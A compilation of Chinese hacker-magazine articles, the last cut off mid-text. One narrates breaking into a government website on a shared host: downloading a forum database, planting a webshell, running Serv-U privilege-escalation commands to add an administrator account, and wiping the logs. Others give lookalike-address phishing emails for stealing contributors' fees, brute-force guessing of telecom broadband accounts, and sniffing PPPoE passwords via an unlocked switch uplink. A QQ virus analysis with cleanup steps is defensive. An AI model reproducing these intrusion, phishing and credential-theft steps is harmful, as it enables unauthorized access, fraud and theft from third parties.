某日，朋友打电话给我说站被黑了，打开页面看了一下，所有的页面都自动弹出一个恶心的窗口，查看页面文件源代码，却发现里面没有一个陌生的调用。郁闷！歌里唱到：这是为什么……

我问他文章页面一共调用了几个js，然后挨个分析。我是这么想的：既然源代码没有陌生的调用，那么问题肯定在本地服务器。在浏览器打开http://www.myxust.net/js/hacker.js、http://www.myxust.net/js/heike.js这种形式的链接，一个个下载，但是最后一个转向了另一个页面http://www.***.com.cn/pop.js，一定就是它的问题了！

看到这里，可能有朋友会问：怎么会有这样子的问题呢？我点的是本地的链接，怎么转到人家网站去了？且听游侠细细道来。

可能很多朋友没有注意到，在微软的IIS里面，有这样一个选项：“IIS选项”->“主目录”->“此资源的内容来自”->“重定向到URL”，如图1所示。

看到了吧？即使你输入本地的网址，它也会转到这个js文件，这是对整站的重定向。另一个方法是把单个文件重定向：在IIS管理里，找一个你要重定向的文件，点右键，选属性，出现如图2所示的窗口，输入地址。


这样设置后，随便你怎么输入aboutus.html这个文件，都会转到www.myxust.net页面去。入侵者用的应该就是这种方法了。既然他能做到这一步，推测他要么是高手，可以在CMD下面搞定，要么就是和我一样用GUI搞定。这样推测起来，他已经完全操控这台计算机了，并且有基于GUI的远程控制工具。

朋友打电话问托管机房的管理员，管理员也证实了我上面的推测。于是，受朋友委托我踏上了“征服”这台主机的路程！

#### 入侵

当然，既然朋友的网站在上面放着，我不能做得很过分。入侵者可以搞定，当然我也可以搞定。开始行动。

首先用老兵的Whois工具查询，发现上面绑定了七八个网站，依次打开，最终只有两个可以正常访问。一个是朋友的站点，另一个是某政府的信息网。朋友的站用的脚本系统我很熟悉，应该不存在什么问题，那么就对不住这个政府网了……

网站是ASP的，用NBSI2居然没有发现漏洞，出乎我的意料，但是有个新装的论坛……可惜也是DVBBS 7 SP2的，好像截至到现在还没有最新的漏洞出来，都闷。随手输入username admin,password admin888——居然进去了！可惜这个用户名密码登录后台却提示不正确，看来是被修改过了。没有办法了？No！输入 `http://www.gov.com/data/dvbbs7.mdb`，工具就提示我下载数据库了，到这里是不是很多读者羡慕我的运气啊？呵呵，没办法，命好！

发现有两个管理员，一边复制了MD5字段用破解工具进行破解，一边想别的办法，因为暴力破解实在要靠运气，虽然命好；但是上帝是不会永远把所有的运气都给你的，还是要自力更生。就算艰苦也要奋斗！

打开数据库，找到Dv_log表，在l_content这一列里面搜索“oldusername”找到下面的信息：

```
oldusername=admin&username2=admin&password2=beiheile&adduser=admin&id=9&Submit=%B8%FC%X0D%C2
```

Oldusername、username2、password2，看到了吧？这可是后台登录的用户名和密码，赶快登录！先在前台上传一个改名为.gif的木马，进入后台用数据库备份的方法改成.asp，详细方法不说了，如图3所示。


这样我们就有了一个在aspmm目录下面的名为ok.asp的木马了。拿这个WebShell查看硬盘，却显示一片空白。很明显设置了目录的访问权限。怎么办？看能不能上传，随便建立一个ASP文件，上传，没有问题。好，有戏！看来要用Serv-U了。试试看，如图4所示。

怎么会这样？是Windows系统自带的FTP？可能是Serv-U修改的吧？先上传一个提升权限的工具再说。上传Serv-u.exe，用WebShell执行，居然有提示信息……那就不客气了！如图5是这个权限提升工具的利用方法，我直接调用CMD添加管理员账号。


先执行 `servu.exe "cmd.exe net user SQLBackUper fuckusa /add"`，再执行 `servu.exe "cmd.exe net localgroup administrators SQLBackUper /add"`，因为我知道这台机器装了SQL Server，所以起了这个迷惑人的名字，现在就有了管理员权限了！接着用3389.exe远程开启终端服务。不急着登录，WebShell用习惯了，速度很快。先用它玩玩Cacls，这是在命令行下面解除对用户访问权限的命令，如图6所示。


我执行 `servu.exe "cacls.exe c: /E /T /G everyone:F"`，这样子解除了对C盘浏览的限制，查看C盘下面，果然是装了Serv-U，不过版本却是6.0，晕得厉害，难道这个5.1提升工具也可以提升6.0的？幸福。现在好了，用终端服务连接吧。

### 分析

上去之后，发现在我上传WebShell的站点目录下还有几个WebShell，估计黑客早就来过好几次了，赶快删掉DVBBS备份数据库的文件，改名数据库，这样子好一些。

再看其他的目录，因为只开了两个网站，没有多少可以测试的，只需要权限重新设置。因为我现在有管理员账号了，配置回原来的权限就ok；顺带封锁c、d、e盘的IIS账号浏览权限。

现在想想，黑客就是像我这样子入侵的吗？先拿到一个WebShell，再提升权限搞到管理员，然后用IIS的URL重定向功能把朋友站点上正常的js文件转向到恶意站点。

现在开始清理战场，删掉所有日志文件，估计管理员也不会来看，所以没有必要搞掉仅仅属于自己的那一部分，升级杀毒软件。因为是帮朋友，所以没有必要留下后门什么的。然后呢？既然知道黑客是用GUI进来的，当然要查黑客的踪迹！

- 1. 检测各种RootKit，没有发现异常。  
  2. 检测启动项，发现异常，有Radmin的踪迹。打开注册表，在`HKEY_LOCAL_MACHINE`下面的Software和System下面均发现有Radmin的信息。干掉，然后找到Radmin的文件删掉，并且在Radmin里有它保存日志的地方，就在C盘根目录下，文件名是`logfile.txt`（各位兄弟，记得黑站之后用了Radmin一定要修改日志到一个隐秘的文件夹啊！），出现如图7所示的内容。

嘿嘿，这下子被我找到了吧？原来是成都的兄弟，你的连接时间、连接的IP都在这里，还想跑？嘿嘿……


> 如果有时间，看看Windows的日志追查入侵者也是个好主意，不过比较多。

#### 防护

其实在上面，我们已经做了一些简单的服务器加固，也就是相当于反击黑客的动作，下面我们继续。

服务器装有BlackICE，先添加一条规则，干掉这个IP，如图8所示。在“类型”里，添加TCP、IP协议，对221.237.66.**进行过滤，永远拒绝。这样黑客的IP就没法访问这台服务器了。


当然，可以设置更加严格的策略，只允许FTP、Web和终端服务通过。同样的功能也可以通过Windows的策略或TCP/IP筛选来实现，如图9所示。


还有SQL Server，被人家利用了可不是好玩的，修改一下：

```sql
use master
sp_dropextendedproc 'xp_cmdshell'
```

改名黑客可能利用的文件`xpsql70.dll`。好了，做好了这些基本差不多了，相信没有什么问题了，可以放心睡觉喽！

> **脚本小子：**据报道，目前网络安全、电子商务除了电脑病毒造成的破坏之外，危害最大的就是钓鱼式攻击。钓鱼攻击主要以骗取用户各种在线交易的账户、密码为目的，进而造成严重的经济损失。目前国内上网用户突破9000万，宽带用户达2000万以上，随着宽带网络的进一步普及，网络用户将体验更多的线上交易安全风险。

适合读者：入侵爱好者，黑防作者  
前置知识：无

### 走进防钓鱼

文/图 蓝烈小镜 青蛙

随着钓鱼式攻击技术在国内被公开以后，网络仿佛成了浩瀚的海洋，各种各样的钓鱼式攻击随处可见。一种新的技术被公开了，我岂能不去关注？于是就去网上和杂志上找了一些有关技术的文章学习，小有收获。

昨天打开电子邮箱便发现了黑防发过来的邮件，说稿费已发放和6月份已开始全面征收稿件。呵呵，一阵兴奋，稿费来了可以大吃一顿了。兴奋之余，目光落在了邮件的最上面一部分，如图1所示。

黑防小编采用了邮件群发功能，导致在其中任何一个收件者的邮件中都能看到群发的邮件名单，这么多敏感信息就这样暴露在大庭广众之下，而这些敏感信息可以很好地拿来钓鱼哦。出于这种攻击技术所带来的后果考虑（被小编狠K），我只好在幻想中来完成攻击了，大家可要跟上哦。


图1

利用这些敏感信息有3种攻击思维，一种是利用投稿者对编辑们的信任关系实施钓鱼式攻击，导致投稿者自己将重要信息泄露给攻击者。我们假设杂志社的投稿邮箱为 tougao@***.com，邮件群发名单中的一个投稿者邮箱为 duzhe1@***.com，首先我们先去申请一个邮箱名为 touga0@***.com 的邮箱（最后的字符为数字0，真实的地址为字母o），如果你会利用邮件头伪造技术的话，可以把邮件地址伪造得和真实地址一模一样，那样效果是最好不过了。接着我们用这个申请的邮箱给 duzhe1@***.com 发邮件并开始构造邮件内容：

> 在大家的支持下，黑防第五期已经顺利结束，将于5月1日前上市。感谢大家支持！杂志目录将于近日刊登于 www.hacker.com.cn 上，请查阅。  
> 稿费已于本周发放，请大家查收。  
> 六期征稿正式开始，欢迎大家踊跃投稿！有任何疑问，请发mail到 hack@hacker.com.cn 询问。

其实内容可以用现成的，因为我们利用的是投稿者对编辑们的信任进行攻击。很多人在看见这样的内容后，以为是邮件系统出错以致重发了一封邮件，然后在自己的稿件写完后，通常是选最后面发的这封邮件进行回复（我相信绝大部分人都不会去记邮件地址的），这样一回复这些稿件就全发到攻击者的邮箱里去了，攻击者再收到邮件后再回复投稿者“***期采用，欢迎继续投稿。”

而投稿者收到这样一封回复邮件后，就会以为稿件已经发到编辑们的手中，接下来攻击者就可以把截获的稿件再以投稿者的身份发往杂志社，只不过最后的联系地址改为了攻击者的地址。这样等刊物一出来，投稿者虽然在杂志上看见了自己的作品，却不见稿费过来，因为稿费早已悄悄进了攻击者的腰包。

基于得到的邮件群发名单和投稿者对编辑们的信任关系还可以构造其他内容，比如注册一个 tougao@xxx.com 邮箱，然后说由于某某原因杂志社更改邮箱，请投稿者把稿件发往这个新的邮箱，后面的回复步骤同上。还有很多种邮件内容构造方法可以很好地达到目的，这里就不一一列举了，但我个人认为我最开始构造的邮件成功率最高。

再来讲讲第二种攻击思维吧，利用的是编辑们对投稿者的信任关系，导致编辑们向攻击者泄露投稿者的重要信息。以前面的邮箱为例，这次要申请的是与投稿者只相差一个字符的邮箱，比如 duzhe1@***.com（与真实的地址差最后个字符，此处为数字1，真实地址为字母l），可以以此邮箱向编辑们发邮件，内容可以这样构造：

> 我是****（*为邮件群发名单中邮件地址对应的中文用法名），我的电脑由于感染了病毒，原稿不幸被杀毒软件删除了，其中还有些地方需要修改，能否把稿件发给我，我修改并添加修改内容后再发往你们邮箱。

但我个人认为这种思维成功率极低，原因在于收集的资料不齐全，连稿件的文章名都没告诉编辑们，给人感觉真实性不够，所以不推荐使用这种思维。

再给大家介绍第三种思维，这种思维很好地解决了第二种思维中的问题，也就是利用投稿者和编辑们之间的相互信任关系，从而欺骗双方来获取更多的敏感信息，最终给编辑们造成此邮件出自于投稿者之手的假象，导致编辑们向攻击者的目的做出响应。攻击者用的邮箱地址重点偏向于近似编辑们的邮箱，用此邮箱向投稿者发送邮件并构造邮件内容如下：

> 我们即将向您发放样刊和稿费，我们最后一次核实您的稿件，请将您的文章名发给我们；我们将进行核对，核对后将在第一时间内将样刊和稿费寄出。

在一般人看来，这好像没什么问题，就算有问题也只把文章名发给了攻击者，但实际上向攻击者泄露了十分有利用价值的资料，接下来就是利用这些资料了。我们利用近似于投稿者的邮箱地址向编辑们发邮件，邮件内容可以如下：

> 我写了****文章（前面获取的资料）已被你们录取了；由于我过几天就要去****地学习一个月，地址有变，请把样刊和稿费发往****地。

嘿嘿，这下来杂志社又要把稿费什么的发给攻击者了，而投稿者却只认为自己的稿件被杂志社录用了，而不知道稿费什么的早已流进攻击者的腰包了。

到这里我们的3种攻击思维就结束了，其攻击精华就在于利用获得的邮件群发名单和投稿者与编辑们的信任关系，上面只给出了一些构造的邮件内容，你可以利用上面讲的攻击精华构造出更真实的邮件内容，从而达到你的目的。

文章到此也该讲讲防范方法了，一种方法是不采用邮件群发的方式给投稿者提供信息，这样攻击者就不能拿到邮件群发名单了，这样就在很大程度上杜绝了此类攻击。另一种方法是采用公钥与密钥的方法对邮件加密，这样只有持有自己相应的公钥才能阅读邮件。还有就是大家自己要注意，不要在公共场合公开自己的邮件地址或者其他一些敏感信息，因为这些也会被一些有企图的人所利用。呵呵，就到这吧，上面所说的纯属幻想，没有实践过，请大家不要利用上述的方法干违法的事，不然警察叔叔很生气，后果很严重。

**脚本小子**：上月“五月月薪”的文章大家都还记得吧？而这次，cczb1将给国内电信公司敲一下警钟。文中有最震撼人心的话：中国工程院院士、国家863计划专项研究专家组组长何德全说“没有信息安全，就没有完全意义上的国家安全，也没有真正的政治安全、军事安全和经济安全。因此，要把我国的信息安全问题放在全球战略考虑！”

适合读者：网管、电信负责人、网民  
前置知识：无

## 从电信角度[宽带安全]


文／图 cczb1

记得张楚有句歌词：“隐藏的危险，变得很阴险”，最近觉得这首名为“八八”的摇滚是写给网络犯罪的。随着网络化步伐的加快，网络已经成为我们生活中的一部分，宽带的安全问题日益突出。而大家在谈论宽带问题的时候，往往爱谈论个人用户应该怎样注意保护自己的账号安全，但是安全问题又不只是个人用户造成的……这篇文章从另一个角度，以宽带问题为切入点，通过对某省的电信网上计费网站安全的测试及获取电信的管理账号过程这一案例，深度剖析目前电信宽带的种种隐患。

用户在进行PPPoE拨号连接的时候，BRAS设备获取用户的上网账号以及上网计算机的MAC地址，然后通过标准Radius协议将用户账号和MAC上报给Radius Server，由Radius Server完成账号和MAC地址一一对应的判别工作。由于MAC地址的唯一性，用户无法进行账号的非法共享或漫游，同时盗用的上网账号也无法使用。简单方便，无须改造现有网络结构和DSLAM设备，只要BRAS设备能根据标准Radius协议上报用户账号和用户计算机MAC地址给Radius Server，这一点目前的BRAS设备都能够做到。不过Radius Server端的维护工作量很大，需要经常维护庞大的用户MAC地址表，而且一旦用户更换电脑或者更换网卡都必须在Radius Server上进行重新绑定，带来额外的工作量和用户投诉；同时对多个用户共用一个VLAN上行的组网模式，二层接入网络的用户安全隔离和广播报文控制也需要额外的解决方案。

#### 硬问题

宽带安全问题抛开个人用户的问题，从电信角度来说：现有网络硬件设备不能满足现有需求，造成用户认证困难。假如目前每个宽带账号和电话线路都可以绑定，真正做到一个账号只能在一条线路上使用，似乎目前很多安全问题都可以解决了。但目前的情况不是这样子的。在各种账号安全问题中，非法共享、盗用的原因主要是因为电信运营商没有对宽带用户账号安全提供限制和可靠的保护，无法形成对宽带用户的唯一标志。市场经济下，投资成本和利润回报影响各个行业的决策，电信也不例外，目前国内整个宽带网络的认证和计费系统主要由BRAS设备和Radius Server设备来共同完成。基于当前的城域网，而VLAN资源不足致使多个用户共用一个VLAN的网络现状，根据目前网络状况开发的PITP协议、PPPoE+协议、DHCP Option82等技术就是为了解决这一问题。

当然，这些方式虽然可以解决用户唯一标志问题，但无法在国内统一，原因其一就是成本问题。成本包含两部分：现有设备投资还没有收回，新技术投资收益还不能确定。其二就是由于中国的各地发展不平衡，改造起来很困难。对此我们应多给些时间，相信不久就会解决这个问题。从电信角度说，对于盗用账户的解决方法目前主要有两个方法：

- **解决方法一**：MAC地址绑定解决方案。电信运营商可以在Radius Server上将用户上网计算机的MAC地址同用户上网账号进行唯一性绑定，利用MAC的唯一性，从而限制上网账号的唯一使用。
- **解决方法二**：LAN或PVC绑定解决方案。目前，在实际的组网中，ATM-DSLAM都采用一个用户一条PVC方式接入，非常容易实现用户账号与PVC的唯一性绑定。为每个接入的宽带用户分配不同的VLAN标志，实现了用户上网账号同VLAN唯一性绑定，避免账号公用和盗用问题。用户间通过VLAN或PVC隔离也可有效地解决二层接入网络广播风暴问题。硬件上的问题不是最令人担心的，从发展的角度，可以很快解决；有些软问题却比较令人担忧。

> **小知识**：VLAN或PVC绑定解决方案是在Radius Server上对用户的宽带上网账号同接入用户的VLAN或PVC进行绑定。在宽带拨号用户进行拨号时，BRAS设备将接入用户的VLAN或PVC信息通过标准Radius协议上报给Radius Server，由Radius Server完成用户上网账号同VLAN或PVC的唯一性鉴别工作。显然，VLAN或PVC绑定解决方案在技术要求和宽带网络建设过程中，将每个用户划分为一个单独的VLAN或者PVC。

#### 软问题

记得2000年初接触到宽带，装宽带时那个电信人员说“宽带密码不存在安全问题，只有你的电话能用”，中国的宽带账户安全观念也是在这种观念中成长，这样……无形中养成宽带用户的安全意识匮乏，造成了中国宽带成长中的先天不足。我就以这几天测试的某省电信网上宽带收费网站为例子，谈谈这个问题。

进入该网站后，找到计费业务版块，如图1所示。


图1

各个模块负责如图1显示，这里就暴露了一个历史遗留问题：宽带用户的用户名密码容易被猜解。一直以来，电信出于管理方便的角度，对用户名很多都以电话号码为基数，加上其他一些简易字母，后边加上诸如@163等的后缀，密码几乎都是电话号码。

> 用通式来表达账户和密码的规律：账户名=城市名称缩写（如bj）+电话号码（如12345678）+@+后缀（如163），密码=电话号码（注意：此处就是账户里的电话号码）。也就是说，只要知道某城市一个宽带账号，只需要略微变改下电话号码就可以猜到其他人的账号，无论手动枚举还是软件实现都异常简单。

这个网上营业厅还有另一个大问题：不是每个电话号码都办理了宽带，当你猜解账号错误时，它并不会采取什么安全策略限制你输入次数。也就是说可以无限枚举，而不会封掉你的IP。这个问题可以说威胁一个城市的所有宽带用户！猜解成功后，用户的上网拨号日志及其他资料会暴露，如图2所示。


图2

善于利用的破解者甚至可以利用分析日志，避开账号所有者的使用时间而不会被发现。账号被猜解后，破解者可以在图2“修改密码”处修改密码，令账号的真正主人不能拨号。轻则别人用你的账号拨号，造成你短期不能拨号上网；重则造成你经济损失，为别人的网上消费支付金钱，如目前流行的在线影院、在线信息查询、在线充值、在线购物功能都可以通过宽带付费。种种在线业务都有个特点，那就是和电信挂钩。究其原因，最终被消费的钱是需要电信中转的，往往最终体现在上网费上。目前国内宽带上网费和电话费是一起交的。当他人盗用你的账号消费不是很多的情况下，你看到账单多出来的几块或者几十块钱时，你是很无奈的。

想起一种现象：犯罪的“成本低”，成本低到受害者没法去告罪犯。而且即使你想告他，找到盗用你账号的人，并拿到证据，其中你付出的时间和金钱也会令你望而却步。这既是法律的悲哀，更是人性的悲哀。奉劝那些走在犯罪边缘的人，勿以恶小而为之。抛开法律来说，你在盗得点滴利益的同时，你失去的也不是单纯用金钱可以衡量的。

#### 网站问题

问题到这似乎可以结束了，可更大的问题还在后边。像电信级的网站，管理后台入口应该十分隐蔽。对于一个动态网站来说，后台管理部分必不可少。由于后台涉及整个站点的安全，因此后台管理部分的入口要十分隐蔽，要采用一套独立前台的模块，采用专用的登录界面。

大型的网站或重要的程序要有很多不同分工的后台管理员来管理，因此每个管理员的管理权限范围和权限之间决不能互相影响，这是非常重要的特性。这个电信的网站设计就违反这个规则，猜了几次路径后，管理员入口就被找到了。如图3所示（由于涉及敏感信息，路径不再给出）。


图3

然后再根据这个路径，利用离线浏览软件WebSeizer，在WebSeizer的网页首选项设置为这个地址，再把和这个页面相关的所有网页下载下来，在下载层次设置为-1，这样和这个页面相关的所有页面都可以下载下来。这次的收获我非常吃惊，在一个新闻组模块里的admin.jsp.html网页里我找到了管理员密码、FTP密码，还有很多其他东西，如图4所示。


图4

## QQmsgMyRun

## 病毒分析


**脚本小子：**QQ病毒一直是全民公敌，一旦中招后必然让你的聊天过程烦恼无比，不过除了写病毒的家伙之外，大多数人除了查杀之外，有没有人留心来分析一下呢？看看作者是如何分析这个病毒的吧！

适宜读者：QQ病毒困扰者，病毒研究者  
前置知识：无

QQ病毒大家都不陌生吧！我也遇到了一次，所以才有这个文章。先来说大体经过吧！

#### 如何中招

前两天打开QQ看到有人在线，是个很熟的女友。我本不喜欢聊天，但由于好久不见了，就跟她聊了起来。聊了几句，QQ发来消息，提示有文件发送，文件名是“在线收音机（我们一起听听第6个频道吧，来探讨这个话题）.EXE”。当时我第一个反应是病毒，随便问了句“不会是毒吧”，没见回答，我便颇为自负地接收了这个文件。习惯性地收到文件先用瑞星查一下毒，显示正常。我便双击运行，开始没反应，再运行结果弹出如图1所示的对话框。


结束它，心中感觉有点不对劲，但却没多在意。把接收的文件删除，给那边女友发个消息，然后聊了几句就下了！

#### 如何发现

当我再次打开QQ和一个朋友聊天时候，突然感觉屏幕一闪，然后聊天信息框消息全部清空了。我感觉到有点不对，此时系统突然提示，对方拒绝了接收文件“QQTalk（QQ聊天秘籍，给你看看吧）.exe”。我纳闷，我并没有给他发文件啊！经验告诉我，肯定中QQ病毒了！

后来通过进程和注册表排查，在 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` 找到了可疑键值，定位到 `C:\Windows\System32` 下文件，发现伪装的 `notepad.exe` 等可疑文件，确认是木马/病毒程序。

好了，浪费了半天口舌说明如何中招与如何发现，并非为了骗稿费，其实就是想告诉读者病毒的狡猾与隐秘性，提醒大家提高警惕！下面就具体分析一下这个名为QQmsgMyRun的病毒，看看时下流行QQ病毒是如何传播、隐藏、运行的，并有针对地列出相关应对措施！

#### 病毒的传播与预防

先说病毒的传播与预防，因为知道了病毒如何传播就知道了如何预防。病毒无法进入你的电脑，还能有什么作为！

从某方面说，病毒的传播可以分为两种：一种是利用系统、IE等漏洞；另一种则利用用户心理（社会工程学）。文末作者引用“没有信息安全，就没有完全意义上的国家安全……”强调信息安全的重要性。

通常情况下这两种传播方式是互相结合的。拿最普通的网页病毒来说吧，动机不纯者可以利用社会工程学诱骗用户访问精心准备的带有病毒网页，而这个网页的作用则是利用浏览者的已知或未知的IE漏洞使其中招！

而就QQ病毒而言，笔者认为最主要的传播途径便是社会工程学的传播，因为QQ病毒主要就是通过QQ好友发消息或文件。发消息主要是诱骗对方浏览消息里的网址，通过网页病毒传播；而发送文件，则是直接让对方接收并运行病毒载体或者传播体来传播！综观整个过程，只要社会工程学传播过程失败，后面的就无从谈起！

传统的QQmsg病毒很容易被识别，它会不停地自动给聊天好友发消息，这很容易被聊天双方所识别；因为作为已中招者，你至少能区别出那些消息是不是自己说的吧，而作为病毒目标的聊天对象，要区别QQ发来的消息是不是真的出自好友本人，也应该不难吧！从而失去隐藏的目的（当然，如果病毒的目的仅仅是为了干扰正常聊天，则就无所谓隐藏的目的了；但如果是另有图谋，如盗号等，那隐藏就显得重要了）。这是QQ病毒传播与隐藏的矛盾所在，也是其最大漏洞所在！

稍微聪明一点的病毒知道明哲保身的必要，也会适度地保持低调，自动给对方发的消息也不如传统的那样容易识别，有时候就跟正常聊天一样，如果不持续聊得深入，再加之QQ那边聊天之人不给提示，还真起到以假乱真的目的！

那现在再看看我的经历吧！首先，对方是熟悉的、不懂病毒不懂黑客的好友；再者，对方给自己发送似乎是正常的文件！结果是我接收了，再在瑞星检查正常下运行了，结果就是中招多日而不自觉！

分析一下吧，说实话，以前我没有经历过自动发文件的QQ病毒，这也许是这次中招的关键。并且，我发现这个病毒好像是以隐藏的方式发送文件的（这过程中会有狐狸尾巴露出，但没意识很难发现，主要是前面说经过时候的一闪和消息的清空）。再加之种种原因，对方不会提示你不要接收文件！（对方是好友则有提示的必要和可能，如果对方存心想黑你机子呢？！）反正我接收了，有点安全意识的我还用瑞星检查了一下，一切正常！

- ① 不要相信任何人从任何途径（当然，主要是QQ）发给你的任何网址和任何文件！
- ② 不要太过相信和依赖杀毒软件！大部分情况下，杀毒软件只能查杀已知病毒和某些未知病毒，而病毒这东西的流行速度可不一般，至少它比流行歌曲快多了……

说了很多QQ病毒的传播和预防的话题，其实不外乎一个原因，防患于未然！但百虑终有一失，万一机子中毒，如何查出来呢？

#### 病毒的隐藏和查杀

病毒的隐藏通常和小孩玩的藏猫猫差不多，找最隐蔽的地方，相信没有病毒会傻到将自己放到桌面上吧！

然后病毒隐藏的目的除了不被发现，更重要的还是运行，只有运行它才能有所作为。病毒要运行，并且是偷偷自动运行，肯定会在机子的某些地方动手脚，如启动文件、注册表启动项、注册表关联文件等。通过这些，就不难找到病毒的藏身之所！

病毒隐藏技巧主要分文件名的隐藏和隐藏路径！其实起病毒文件名也是个技巧，通常会起一个极其普通的文件名，或者类似于系统文件的文件名，甚至干脆就与系统文件重名，而将相应的系统文件改名或移动位置！比如本文提到的notepad[空白].exe。

这里它起的notepad[空白].exe并不太高明，但是它隐藏的路径很隐蔽，藏到system32目录下，如果不是碰巧查找一个以N开头的NTdcph的它的同伴，很难发现它的存在！

有人要问，你接收的文件不是叫“在线收音机（…）.EXE”吗？这个notepad[空白].exe又从哪里来呢？其实这完全是收音机文件搞的手脚，事实上收音机文件还不止做了这些！来看看它到底做了什么吧！

- ① 在 `C:\windows\system32` 下生成 `notepad[空白].exe` 和 `[空白].exe` 两个文件，目录隐藏难以发现！
- ② 在 `C:\windows\system` 下生成 `rundll32.exe`（之所以不在system32下，主要因为其下已有同名文件）。
- ③ 在注册表中添加以下标记：

```text
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainSetup
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainUp
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainVer
```

记得前面说我双击收音机时弹出的对话框吗？其实当我第一次双击时没有反应，病毒已经运行了，其中的作为之一便是在注册表中添加这3个标记；当我第二次运行时候，收音机先检查注册表的这几处，发现上面3处标记已表明此机已感染，便弹出窗口结束！

```text
④ HKEY_LOCAL_MACHINE\Software\Classes\exefile\shell\open\command
(Default)="r" "%1" %*
HKEY_LOCAL_MACHINE\Software\Classes\txtfile\shell\open\command
(Default)="notepad %1"
```

这两处分别将exe文件和txt文件的关联改到前面①中复制的两个文件，只要用户打开exe或者txt文件便会自动关联这两个文件，生成②中的rundll32文件……

- ⑤ 病毒会检测系统中是否安装了QQ，如果安装有QQ，病毒会通过注册表找到QQ.EXE所在路径，把正常的TIMPlatform.exe改名为TIMP1atform.exe（将字母“l”改成数字“1”），将病毒自身复制为TIMPlatform.exe。

从这里可以看到这个病毒起文件名的办法便是给正常文件改名，达到狸猫换太子的目的……分析了不少这个病毒的隐藏伎俩，来说说相应的查杀措施了！

- 1. 打开任务管理器（Ctrl+Alt+Del），终止Rundll32.exe进程（注意区分系统正常进程）。
- 2. 查找 `regedit.exe`，将其扩展名改为 `.com` 后运行。
- 3. 修改注册表关联：
  - `HKEY_CLASSES_ROOT\exefile\shell\open\command` → `"%1" %*`
  - `HKEY_CLASSES_ROOT\txtfile\shell\open\command` → `%SystemRoot%\system32\NOTEPAD.EXE %1`
- 4. 删除异常启动项与 `RUNDLL32.EXE` 伪装路径。
- 5. 到QQ安装目录删除病毒生成的 `TIMPlatform.exe`，并将 `TIMP1atform.exe` 改回 `TIMPlatform.exe`。
- 6. 删除相关注册表项（如 `HKEY_LOCAL_MACHINE\Software\Classes\MSipv\...`）。
- 7. 将 `regedit.com` 改回 `regedit.exe`。

#### 病毒的启动与发觉

说了病毒的隐藏，该来说说病毒的启动运行与发觉了！其实这个问题可以和上面的隐藏放到一起来说，但为了条理清晰，这里把这两个互相交叉的问题分开来说吧！

- 1. 病毒主要通过文件关联启动，查杀时找到被修改的关联项并恢复即可；注意 `.exe`、`.reg` 等扩展名关联。
- 2. 很多病毒通过启动脚本/启动项/注册表自启动：
  - `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
  - `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Runonce`
- 3. 病毒运行后通常会在进程中表现（或隐藏进程）。可先查可疑进程，再反查文件与注册表。
- 4. 病毒运行时常伴随传播行为，本例会通过QQ自动向好友发送文件。

> 接啊，快接啊，推荐给你看看.exe  
> 笑死我了，你看过这个FLASH吗.exe  
> 好漂亮的动画哦，可以打开看看吧.exe  
> 啊哈，网友发的超级搞笑FLASH，你有得懂吗.exe  
> 超级MM，超级FLASH，请笑纳.exe  
> 你一定需要的工作资料（网上找到的）.exe  
> 网上电视（20个CCTV频道+36个省台+50个英文台，极力推荐）.exe  
> 一大堆对你目前工作很有帮助的东东.exe  
> QQTalk（QQ聊天秘籍，给你看看吧）.exe

而我便是通过对方拒绝接收病毒自动发送的QQTalk（QQ聊天秘籍，给你看看吧）.exe来发现的！综合上面几点，通过分析QQMsgMyRun这个病毒的传播、隐藏与启动运行，和大家一起了解了流行QQ病毒的惯用伎俩和相应的对策。

适合读者：网络管理员、入侵爱好者  
前置知识：网络设备基本概念

## PPPoE验证的漏洞利用

文／图 飞刀 郭永清


网通的宽带接入通常都是LAN的方式，即所有的用户都位于一个大的局域网中，客户端要上网，需要先使用相应的账号进行PPPoE拨号，通过验证之后获得公网IP，然后才能上网。但是就是这个PPPoE验证过程，却使得用户的账号和密码有被窃取的可能，因为在默认情况下，这个账号和密码是通过明文传输的。非法者只要想办法监听到用户的验证过程，那么他就可以轻而易举地获得大量的用户账号和密码。在网通，只要你有了账号和密码，只要有网通的地方你就可以上网，这就为那些不想花钱又想上网的人提供了可能。现在的关键是怎样来窃取别人的账号和密码呢？方法可以说有很多，这里就来看一种操作简单的方法，这种方法是利用PPPoE验证的缺陷来达到目的的。

但需要注意的是，正是上面所讲的原因，由于广播的不安全性，所以通常接入层交换机（这里指最终用户所直接连接的交换机）都是支持固定端口隔离的，也就是说端口与端口之间无法通信，用户接入的端口只能与上行端口通信（也就是级联到上一层交换机的端口），而且这种端口隔离是固化的，不可使用软件配置的方式进行更改。所以同一楼层的用户是无法互相监听的，但这里仍然有个漏洞，就是所有用户端口能够与上行端口通信，那么如果某个用户把自己的网线连接到上行端口，他不就可以监听所有用户通信了吗？实际上这是很容易实现的，因为网通的楼层交换机机柜通常都是没有锁的。你只要先在家中开启好监听软件，然后到机柜处拔掉上行线，把你的网线插入上行端口，嘿嘿，在上网高峰时刻，5秒钟时间你就可以获得一大把上网账号和密码。至于可以实现的原因及详细的准备工作，还请参看下文。

但是请大家注意！这种行为可能触犯法律，这里只是提供一种理论上的可能，请勿以身试法。PPPoE验证的基本过程如图1所示。


假如客户端要通过一个局域网与远方的PPPoE服务器进行身份验证，PPPoE会话有两个不同的阶段：发现阶段和PPP会话阶段。当一个客户端想开始一个PPPoE会话时，它必须首先进行发现阶段以识别对端的以太网MAC地址，并建立一个PPPoE SESSION_ID。在发现阶段，基于网络的拓扑，客户端可以发现多个PPPoE服务器。发现阶段允许客户端找到所有的PPPoE服务器，然后从中选择一个，不过通常都是选择反应最快的一个，这与DHCP发现过程是不是很类似？当发现阶段成功完成，客户端和它选择的PPPoE服务器都有了它们在以太网上建立PPP连接的信息。直到PPP会话建立，发现阶段一直保持无状态。一旦PPP会话建立，客户端和PPPoE服务器都必须为PPP虚拟接口分配资源。PPPoE通信流程如图2所示。


